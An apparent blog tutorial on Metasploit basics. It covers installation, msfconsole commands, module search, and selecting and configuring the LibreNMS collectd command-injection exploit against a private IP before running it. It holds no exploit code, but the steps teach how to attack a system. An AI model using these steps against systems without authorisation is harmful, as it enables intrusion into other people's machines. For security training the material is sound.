 ```yaml
---
title: "Intro To Metasploit"
categories:
  - Hacking
---
```


The basics of finding And exploiting vulnerabilities using Metasploit.

Metasploit is a penetration testing framework that helps you find and exploit vulnerabilities.

The Metasploit Framework is one of the most useful testing tools available to security professionals. Using Metasploit, you can access disclosed exploits for a wide variety of applications and operating systems. You can automatically scan, test, and exploit systems using code that other hackers have written.

Metasploit also provides a development platform for you to write your own security tools or exploit code.

Today, I am going to guide you through the basics of how to use Metasploit: how to install Metasploit, use the framework, and exploit a vulnerability.

## Installing Metasploit

If you are using Kali Linux, Metasploit is already installed for you. All you have to do now is to get started hacking!

Otherwise, you can download the installer for your platform here.

[rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)

## Let's Get Started

After you've installed Metasploit, the first thing that you will want to do is to launch the platform. You can launch Metasploit by running this command in your terminal:

```bash
$ msfconsole
```

You will see your terminal prompt changed to `msf >`.

```bash
msf >
```

First, you can run `help` to see the help menu. This will show you the list of commands available.

```bash
msf > help
```

![](https://vickieli.dev/assets/images/hacking-06.png)

You can also run `search` to look for modules if you already have an idea of what you want to do. For example, this command will search for exploits and scripts related to MySQL.

```bash
msf > search mysql
```

![](https://vickieli.dev/assets/images/hacking-07.png)

You can also run `help search` to display the filters that can be used with `search`. For example, you can search by the CVE year, platform name, or module type.

```bash
search cve:2009 type:exploit platform:-linux
```

The `info` command displays additional information about a module. The command will show you information about a particular module, including its author, description, intended targets, options for exploitation, and reference links.

```bash
msf > info exploit/linux/http/librenms_collectd_cmd_inject
```

![](https://vickieli.dev/assets/images/hacking-08.png)

After you have decided on a module to use, run `use`to select it.

```bash
msf > use exploit/linux/http/librenms_collectd_cmd_inject
```

This will change the context of your commands and allow you to run commands specific to this module.

```bash
msf exploit(linux/http/librenms_collectd_cmd_inject) >
```

## Exploiting Vulnerabilities With Metasploit

Now that you are inside the module, run `options` to see what you can do.

```bash
msf exploit(linux/http/librenms_collectd_cmd_inject) > options
```

![](https://vickieli.dev/assets/images/hacking-09.png)

The command will display the variables that you can customize and the payloads options that you can choose.

You can configure framework options and parameters for the module using `set`. For example, to set the target host for exploitation, you can run:

```bash
msf exploit(linux/http/librenms_collectd_cmd_inject) > set RHOSTS 172.16.194.134
```

You will need to set all the required variables before you can run the exploit. For this particular module, you have to provide the `PASSWORD`, `RHOSTS`, `RPORT`, `TARGETURI`, and `USERNAME`.

In Metasploit, `LHOST`, `RHOST` and `SRVHOST` are some of the most commonly used variable names. `LHOST` refers to the IP of your machine, which is usually used to create a reverse connection to your machine after the attack succeeds. `RHOST` refers to the IP address of the target host. And `SRVHOST` is where the module will connect to download additional payload elements.

Finally, after you are done configuring, you can run the command `exploit` to start the exploit!

```bash
msf exploit(linux/http/librenms_collectd_cmd_inject) > exploit
```

## Conclusion

Today, we covered the very basics of using Metasploit. Metasploit is a feature-rich framework and has a lot more to explore. But by learning how to configure and run an exploit, you now have the basic skills to start utilizing this powerful tool!